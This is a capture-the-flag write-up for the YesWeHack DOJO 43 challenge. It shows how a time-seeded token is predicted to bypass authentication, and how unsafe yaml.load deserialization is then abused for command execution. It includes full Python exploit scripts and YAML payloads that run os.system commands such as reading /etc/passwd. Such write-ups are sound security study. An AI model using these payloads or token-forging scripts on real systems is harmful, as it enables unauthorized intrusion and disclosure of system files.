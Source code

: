 ```yaml
---
layout: single
title: Remote Code Execution via Unsafe YAML Deserialization with Token Bypass - DOJO 43
excerpt: "The challenge code performs unsafe YAML deserialization (yaml.load) on user-controlled input without proper validation or sandboxing, allowing remote code execution (RCE) via crafted payloads. A token-based access control is implemented comparing a guest token with a generated root token, but the check is flawed or bypassable, enabling an attacker to pass the authentication and reach the vulnerable YAML deserialization code. However, an attacker can bypass or control these tokens (e.g., via predictable token generation using the current time as seed), allowing access to the deserialization block where yaml.load is called with yaml.Loader. This allows arbitrary command execution via the !!python/object/apply:os.system YAML tag or similar techniques.
date: 2025-08-03
classes: wide
header:
  teaser: /img2/images/ywh.png
  teaser_home_page: true
  icon: /img2/images/ywh_logo.png
categories:
  - yeswehack
  - Web
tags:
  - Auth-Token Bypass
  - Python Deserialization Attack (DES-Yaml)
---
```



![](/img2/Pasted%20image%2020250803225647.png)

> By reviewing the Python code, we see that for our token to be valid, it must be the same as the token generated by the server.

```python
import random
import time

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))

tokenRoot = genToken(int(time.time()) // 1)
print(f"TOKEN: {tokenRoot} --> TIME: {int(time.time()) // 1}")
```

![](/img2/Pasted%20image%2020250803230052.png)

> To replicate the behavior when generating the cookie, we can create a small script. By running the script several times, we can see that there's a range in which the same session cookie is generated, due to the poor implementation of time.

```python
import requests
import random
import time
import json

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))


url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": 'testing', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass     
```

```bash
python3 cookie_poc.py > index.html
```

```bash
python3 -m http.server 80
```

![](/img2/Pasted%20image%2020250803230643.png)

> By replicating the result from our script on our own HTTP server, we can see that we've successfully bypassed the session token.

![](/img2/Pasted%20image%2020250803231016.png)

```python
!!python/object/apply:os.system ["whoami"]
```

> Once we gained access to the firmware update function, we reviewed the code and saw that it uses the 'yaml.load()' function, which is vulnerable to Code Execution via Unsafe YAML Deserialization.

```python
import requests
import random
import time
import json
from bs4 import BeautifulSoup

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))



url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": '!!python/object/apply:os.system ["cat /etc/passwd"]', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass
```

```bash
python3 poc.py
```

![](/img2/Pasted%20image%2020250803231448.png)

 > To achieve RCE, it's necessary to send a request with the token bypass and the payload in the 'yaml' field.
## Flag

![](/img2/Pasted%20image%2020250803231544.png)

> Once we're able to execute arbitrary commands within the system, we can retrieve the flag at the end of the request.